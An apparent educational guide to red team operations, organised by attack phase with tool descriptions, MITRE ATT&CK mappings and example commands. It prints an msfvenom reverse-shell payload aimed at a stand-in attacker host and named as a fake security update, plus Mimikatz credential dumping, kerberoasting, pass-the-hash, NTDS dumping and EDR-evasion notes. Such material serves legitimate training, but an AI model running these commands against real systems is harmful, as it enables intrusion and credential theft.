




# Red Team Operations & Tradecraft: Offensive Security, Adversary Emulation & Tooling Arsenal

> **Category:** Offensive Security | **Series:** Security Team Operations | **Level:** Intermediate to Advanced

---

## Executive Overview

A **Red Team** is an authorized, adversary-emulating offensive security unit that evaluates an organization's security posture by attempting to compromise systems, evade detection, and achieve mission objectives exactly like a real-world threat actor.

Unlike traditional vulnerability assessment or point-in-time penetration testing—which primarily catalog software bugs—Red Teaming operates on the **"Assume Breach" paradigm**. The mission is to test an enterprise's people, processes, physical perimeters, and technology through multi-stage attack chains.



```text
+-----------------------------------------------------------------------------------------------+
|                                Red Team Operational Scope                                     |
+--------------------------+------------------------------------+-------------------------------+
|  Adversary Emulation     |  Attack Path Chaining              |  Defensive Posture Validation |
|  - Threat Actor TTPs     |  - Multi-Vector Compromise         |  - EDR Evasion Testing        |
|  - Covert Persistence    |  - Active Directory Exploitation   |  - SOC Detection Dwell Time   |
|  - Custom C2 Channels    |  - Internal Lateral Movement       |  - Incident Response Readiness|
+--------------------------+------------------------------------+-------------------------------+
```

> [!IMPORTANT]
> **Legal & Ethical Notice:** Red Team operations must always be conducted within formal, written **Rules of Engagement (RoE)** and with explicit executive authorization. Unauthorized access to computer networks is illegal under international computer misuse laws.

---

# 1. The Red Team Attack Lifecycle

Professional Red Teams structure their campaigns around proven offensive methodologies, such as the **Cyber Kill Chain** and the **MITRE ATT&CK Framework**:



---

# 2. Complete Red Team Tooling Arsenal

Modern Red Teams deploy a specialized arsenal of tools to navigate each phase of the attack graph while actively evading Blue Team detection rules:



---

## 2.1 Phase 1: Reconnaissance & Target Discovery

Reconnaissance identifies exposed assets, subdomains, shadow IT, and misconfigurations before launching active attacks.



### Essential Tools & Practical Usage

#### 1. Nmap (Network Mapper)
* **Purpose:** Network host discovery, port scanning, and OS/service fingerprinting.
* **Key Use Case:** Rapid stealth scanning of external perimeter CIDR blocks.
```bash
# Stealth SYN scan with version detection and default safe scripts
nmap -sS -sV -sC -Pn -p 1-65535 -T4 --open -oA internal_recon 10.10.10.0/24
```

#### 2. OWASP Amass
* **Purpose:** In-depth subdomain enumeration and DNS attack-surface mapping using open-source intelligence and active DNS brute-forcing.
```bash
# Enumerate target domain attack surface with active graph resolution
amass enum -active -d target.com -o target_subdomains.txt
```

#### 3. Shodan CLI & Censys
* **Purpose:** Internet-wide scanning database search engine to locate exposed servers without sending direct packets to the target.
```bash
# Query exposed target infrastructure with open RDP or SSH ports
shodan search org:"Target Enterprise" port:3389,22
```

#### 4. ffuf / Feroxbuster
* **Purpose:** Fast web application content discovery and directory fuzzing.
```bash
# Recursively fuzz hidden API routes and administrative portals
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt \
     -u https://target.com/FUZZ -mc 200,301,302,403
```

---

## 2.2 Phase 2: Weaponization & Initial Access

Once an external vector is found, operators build customized, low-observable payloads.

#### 1. Burp Suite Professional
* **Purpose:** Web security auditing, HTTP traffic interception, and API payload manipulation.
* **Key Use Case:** Finding authorization flaws (IDOR), SQL injection, and remote code execution (RCE) in internet-facing web apps.

#### 2. Metasploit Framework (MSF)
* **Purpose:** Modular exploitation framework containing thousands of verified public exploits.
```bash
# Generating an obfuscated Windows staged reverse shell payload
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=attacker.c2.com LPORT=443 \
         -f exe -o security_update.exe
```

#### 3. GoPhish
* **Purpose:** Open-source phishing simulation framework.
* **Key Use Case:** Testing human defenses through authorized simulated credential-harvesting campaigns with detailed tracking metrics.

---

## 2.3 Phase 3: Active Directory & Privilege Escalation

In enterprise networks, Active Directory (AD) is the primary target. Red Teams focus on identity graph paths rather than individual host compromises.


#### 1. BloodHound & SharpHound
* **Purpose:** Graph theory application mapping hidden Active Directory relationship paths, ACL permissions, and nested group delegations.
* **Key Use Case:** Finding the shortest path from a regular domain user to Domain Admin.
```bash
# Execute SharpHound data collection on target domain
SharpHound.exe -c All --zipfilename target_ad_graph.zip
```

#### 2. Mimikatz
* **Purpose:** Post-exploitation tool that extracts plaintext passwords, NTLM hashes, and Kerberos tickets directly from Windows LSASS process memory.
```powershell
# Privilege elevation and extraction of logged-on credential hashes
privilege::debug
sekurlsa::logonpasswords
sekurlsa::tickets /export
```

#### 3. Rubeus
* **Purpose:** Toolset for raw Kerberos interaction and abuse.
* **Key Use Case:** Kerberoasting high-privilege service accounts to crack passwords offline.
```bash
# Request Kerberos service tickets for accounts with SPNs and format for hashcat
Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

#### 4. Impacket Suite
* **Purpose:** Python collection of low-level network protocol manipulation tools (SMB, MSRPC, Kerberos).
```bash
# Pass-the-Hash over SMB without plaintext credentials
impacket-psexec -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 Administrator@10.10.10.50

# Remotely dump Active Directory NTDS.dit hashes via DRSUAPI
impacket-secretsdump domain.local/user:password@10.10.10.1 -just-dc-ntlm
```

#### 5. Responder
* **Purpose:** LLMNR, NBT-NS, and mDNS poisoner.
* **Key Use Case:** Capturing NTLMv2 password hashes across the local broadcast domain.
```bash
# Listen on interface eth0 and poison broadcast requests
responder -I eth0 -rdw
```

---

## 2.4 Phase 4: Command and Control (C2) Frameworks

Command and Control servers allow operators to manage compromised endpoints over encrypted, resilient communication channels.

| C2 Platform | Architecture | Primary Communication | Key Strengths |
| :--- | :--- | :--- | :--- |
| **Cobalt Strike** | Commercial Java/Client | HTTP/S, DNS, Named Pipes | Industry standard, Malleable C2 profiles, Beacon payload |
| **Sliver** | Open-source Go | mTLS, WireGuard, HTTP/S, DNS | Multi-player, cross-platform, built-in shellcode injection |
| **Havoc** | Modern C++ / Go | HTTP/S, WebSocket | Extensible Demon agent, raw syscall support, sleep obfuscation |
| **Mythic** | Open-source Python/Docker | Pluggable agents | Microservice architecture, tailored for customized payloads |

---

## 2.5 Phase 5: Defense Evasion & Data Exfiltration

To test whether the Blue Team's EDR and SIEM are effective, Red Teams utilize evasion techniques:

#### 1. Donut
* **Purpose:** Generates position-independent x86/x64 shellcode from .NET assemblies, DLLs, or VBScript, allowing in-memory execution without touching the disk.

#### 2. Process Injection / Syscalls
* Bypassing user-mode EDR API hooks by issuing direct Windows Native API syscalls (`NtAllocateVirtualMemory`, `NtProtectVirtualMemory`).

#### 3. DNS / HTTPS Tunneling
* Exfiltrating simulated sensitive test files through base64-encoded DNS sub-queries or encrypted HTTPS POST requests disguised as regular web browsing.

---

# 3. Master Red Team Tool Reference Matrix

| Tool Name | Attack Lifecycle Phase | Primary Environment | Core Technique (MITRE ATT&CK) |
| :--- | :--- | :--- | :--- |
| **Nmap** | Reconnaissance | Linux / Windows | T1046: Network Service Discovery |
| **Amass** | Reconnaissance | Multi-platform | T1596: Search Open Technical Databases |
| **Burp Suite** | Weaponization / Access | Web / HTTP | T1190: Exploit Public-Facing Application |
| **GoPhish** | Initial Access | Multi-platform | T1566: Phishing |
| **Mimikatz** | Credential Access | Windows | T1003: OS Credential Dumping (LSASS) |
| **Rubeus** | Credential Access | Windows | T1558: Steal or Forge Kerberos Tickets |
| **BloodHound** | Discovery / AD | Multi-platform | T1087: Account Discovery & T1069: Permission Groups |
| **Impacket** | Lateral Movement | Python / Multi | T1021: Remote Services (SMB/RPC) |
| **Cobalt Strike** | C2 / Execution | Windows / Linux | T1071: Application Layer Protocol (C2) |
| **Sliver** | C2 / Execution | Multi-platform | T1573: Encrypted Channel |
| **Responder** | Credential Access | Linux | T1557: Adversary-in-the-Middle (LLMNR) |

---

# 4. Red Team Reporting & Value Delivery

The ultimate objective of a Red Team is not simply proving an intrusion was possible—it is **empowering the defensive team to permanently eliminate the attack path**:

```text
Deliverables of a Professional Red Team Engagement:
 1. Executive Summary: High-level business impact and systemic risk overview.
 2. Attack Path Visual Narrative: Detailed step-by-step documentation with screenshots.
 3. Exact Execution Timestamps: Microsecond-precise activity logs for Blue Team correlation.
 4. Telemetry Gap Analysis: Highlighting which actions failed to generate SOC alerts.
 5. Strategic & Tactical Remediation: Prescriptive engineering steps to close the root cause.
```

By maintaining precision, strict ethics, and close alignment with defensive counterparts, the Red Team acts as the ultimate stress test for enterprise cyber readiness.
